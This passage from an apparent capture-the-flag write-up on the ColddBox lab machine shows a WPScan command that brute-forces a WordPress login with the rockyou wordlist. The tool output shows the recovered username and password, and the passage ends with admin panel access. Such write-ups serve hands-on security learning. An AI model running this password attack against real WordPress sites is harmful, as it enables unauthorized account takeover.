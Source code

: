 So next i launched the wordlist attack with WPScan for passwords on `c0lld`
```bash
└─$ wpscan --url http://192.168.67.4 -U c0ldd -P /usr/share/wordlists/rockyou.txt
```

```bash
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - c0ldd / 9876543210                                                                                      
Trying c0ldd / 9876543210 Time: 00:00:14 <                                 > (1225 / 14345618)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210
```
And found the logins.   

Got access to the admin panel:

![](colddbox_pics/colddbox_admin_panel.png)
